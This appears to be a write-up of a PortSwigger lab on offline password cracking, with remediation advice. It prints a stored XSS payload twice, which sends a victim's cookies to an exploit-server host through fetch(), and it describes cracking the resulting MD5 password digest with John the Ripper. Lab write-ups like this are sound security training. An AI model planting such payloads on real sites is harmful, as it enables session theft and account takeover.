







## Metadata

- **Difficulty:** Practitioner
- **Category:** Authentication
- **Lab URL:** [Lab: Offline password cracking](https://portswigger.net/web-security/authentication/other-mechanisms/lab-offline-password-cracking)
- **Date Solved:** 11/9/2026
## Vulnerability Summary

The app uses a weak hashing algorithm to hash user passwords and stores this digest in the `stay-logged-in` cookie. This cookie can be obtained by exploiting a stored Cross-site Scripting (XSS) vulnerability in the app blog's comment functionality. Afterwards, we can use `hashcat`/`John the Ripper` to crack the hashed password, obtain `carlos`'s login credentials, and delete their account.
## Reconnaissance

- After logging in with the credentials `wiener - peter` with `Stay logged in` ticked, we are taken to the `/my-account?id=wiener` endpoint. Reloading this page produces a `GET /my-account?id=wiener` HTTP request, where existed a `stay-logged-in` cookie. Highlighting this value with Burp makes it automatically identify the encoding technique and decoding it as below:

The `stay-logged-in` cookie is in the form of `base64(username:digest-value)`. This value is the password `peter`, hashed with MD5:

Using this info, we can infer that the `stay-logged-in` cookie for `carlos` is `base64(carlos:md5(carlos's password))`. This means that if we can find `carlos`'s cookie and crack the password, we can gain access to their account.
- As mentioned by the lab's description, the app blog's comment functionality also contains an XSS vulnerability. This vulnerability exists in the `comment` parameter, as injecting a standard XSS payload `<script>alert(1)</script>` into it invokes the `alert()` function, and the dialogue box is shown on the website:

This is because the app stores our comment without any sanitization:

With all of this info, we can inject an XSS payload in the blog's comment to make the victim (`carlos`) send all of their cookies to our exploit server.
## Exploitation Steps

1. Paste this payload into the `comment` parameter (the comment's body):
```js
<script>
fetch('https://exploit-exploit-domain-id.exploit-server.net/?cookie=' + btoa(document.cookie))
</script>
```
Other fields can be randomly inputted. Send the comment.
2. Go to your exploit server, and check the access log at `/log`. You should see that someone has visited the blog, the XSS payload has ben triggered successfully, and their cookies are appended to the request:

3. Copy this cookie value, and decode it from base64. You should see that it contains 2 cookies, but we only need the `stay-logged-in` one, as explained above.

4. Copy the value of the `stay-logged-in` cookie, and decode it from base64 again. We will get `carlos`'s `stay-logged-in` cookie, which contains their password hashed with MD5:

5. Use a password cracking software like `hashcat` or `John the Ripper` to crack this password. I used `John The Ripper`:

6. `carlos`'s password is `onceuponatime`. Log in with the credentials `carlos - onceuponatime`, and delete account. Lab is solved.
(Note: you can google the digest string and the cracked plaintext will be returned directly).
## Payload Used

```js
<script>
fetch('https://exploit-exploit-domain-id.exploit-server.net/?cookie=' + btoa(document.cookie))
</script>
```
This is a basic XSS payload to make a HTTP request to our exploit server. When the victim (`carlos`) view the blog and the comments load, their cookies will be base64-encoded and sent to our exploit server as a query string.
## Root Cause
 
We were able to gain `carlos`'s credentials due to the chaining of 3 security failures:
1. **Stored Cross-Site Scripting (XSS):** The application accepts user input in the blog comment body and reflects it persistently in the HTML response without any input validation or context-aware output encoding.
2. **Insecure Cookie Attributes:** The sensitive `stay-logged-in` cookie is issued without the `HttpOnly` flag. This allows client-side scripts, including the injected XSS payload, to interact with and exfiltrate the cookie via `document.cookie`.
3. **Insecure Token Generation & Weak Cryptography:** Rather than utilizing a randomly generated session identifier for persistent authentication, the application constructs the token by base64-encoding the username alongside an unsalted MD5 hash of the user's password. Because MD5 is computationally fast and lacks a salt, it is highly susceptible to rapid offline dictionary and brute-force attacks.
## Remediation

- Implement context-aware HTML output encoding for all user-submitted data before it is rendered in the browser. Characters with special meaning in HTML (e.g., `<`, `>`, `&`, `"`, `'`) must be converted to their corresponding HTML entities.
- Never store credentials (even hashed) within a cookie. A secure `stay-logged-in` implementation should rely on a "Remember Me" token. This involves generating a cryptographically secure, high-entropy random string, issuing it to the client, and storing a strongly hashed version of it (e.g., using SHA-256) in the backend database linked to the user's account and an expiration timestamp.
- Enforce the `HttpOnly` flag on all session and authentication cookies to prevent client-side JavaScript from accessing them. Additionally, set the `Secure` flag to ensure transmission only occurs over encrypted channels, and utilize the `SameSite=Lax` or `Strict` directive to mitigate Cross-Site Request Forgery (CSRF).